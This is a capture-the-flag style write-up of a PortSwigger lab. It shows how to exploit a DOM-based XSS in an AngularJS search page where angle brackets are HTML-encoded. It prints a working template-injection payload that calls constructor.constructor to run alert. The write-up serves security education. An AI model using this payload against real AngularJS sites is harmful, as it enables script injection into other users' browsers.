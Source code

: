 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression), you'll learn: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in a [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that executes an AngularJS expression and calls the `alert` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054630.png)

In here, we can see there is a search box.

**Let's search something:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054649.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054701.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-7-7.js"></script>
    <title>DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded</title>
</head>
<body ng-app>
```

In here, we see the **AngularJS JavaScript library is being used, and the `<body>` tag is in `ng-app` directive.**

**Let's try to inject some JavaScript code:**
```html
<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230054921.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
```

As you can see, the `<>` is HTML encoded.

**However, since AngularJS is being used, we can execute JavaScript expressions within double curly braces:** (From [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md#storedreflected-xss---simple-alert-in-angularjs))
```js
{{constructor.constructor('alert(document.domain)')()}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055646.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055653.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-11/images/Pasted%20image%2020221230055709.png)

We did it!

# What we've learned:

1. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded